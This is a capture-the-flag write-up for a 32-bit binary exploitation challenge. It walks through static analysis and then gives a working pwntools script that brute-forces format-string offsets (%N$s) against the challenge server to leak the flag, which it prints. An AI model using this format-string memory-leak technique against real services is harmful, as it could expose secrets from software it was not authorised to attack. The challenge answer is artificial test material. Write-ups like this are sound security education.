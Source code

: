 # !Kogarashi Café - The Secret Blend  

**Category:** Binary Exploitation 

A challenge that involves analyzing a binary and exploiting format string vulnerabilities to retrieve the flag.  

---

### Challenge  

**Provided File:** `secret_blend`  

---

## Overview  

1. **Analyzing the Binary**  
   - Use `file secret_blend` to determine the binary type:
     ```sh
     ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=00003bb9e0cd2a32ea61c4b60004ed82aa94d4a9, not stripped
     ```
   - Run `strings secret_blend` to find readable text inside:
     ```sh
     Barista: 'The special blend is missing...
     ```
   - Disassemble the binary using `objdump`:
     ```sh
     objdump -d secret_blend > disassembly.txt
     ```
   - Load the binary in **Ghidra** or **Binary Ninja** to reverse-engineer its logic.  

2. **Identifying the Vulnerability**  
   - The binary contains a **format string vulnerability** that can be exploited to leak memory and extract the flag.
   - The challenge is to find the correct offset in the format string to retrieve the flag.  

---

## Steps to Exploit  

1. **Check Binary Properties**  
   ```sh
   file secret_blend  
   checksec --file=secret_blend  
   strings secret_blend  
   ```

2. **Reverse Engineer the Binary**  
   - Load in **Ghidra** or **Binary Ninja** to analyze its functions and identify vulnerable inputs.  
   - The program does not properly sanitize user input, making it susceptible to a format string attack.  

3. **Exploit Format String Vulnerability**  
   - Use a script to test different offsets and locate the flag in memory.  

---

## Exploit Script  

```python
#!/usr/bin/env python3
from pwn import *

def test_offset(offset):
    try:
        # Create a new connection for each attempt
        p = remote("chals1.apoorvctf.xyz", 3003)
        # Wait until the prompt appears (using bytes)
        p.recvuntil(b"What will you have?")
        # Craft the payload for the given offset
        payload = f"%{offset}$s".encode()
        p.sendline(payload)
        # Use recvall to get all data until the connection closes
        response = p.recvall(timeout=2)
        p.close()
        return response
    except EOFError:
        # If the connection is closed before we receive data, return empty bytes
        return b""

def main():
    flag = None
    # Try offsets 1 through 15 to see which one leaks the flag
    for offset in range(1, 16):
        response = test_offset(offset)
        print(f"Offset {offset}: {response}")
        if b"flag{" in response:
            flag = response
            log.success("Flag found: " + flag.decode(errors="ignore"))
            break
    if flag is None:
        log.error("Flag not found. Adjust the offset range if needed.")

if __name__ == "__main__":
    main()
```

---

## Extracted Flag  

```
apoorvctf{Th3_M3nu_L34ks_M0re_Than_It_Sh0uld}
```

This write-up details the steps taken to analyze the binary, identify the vulnerability, and exploit it to retrieve the flag.

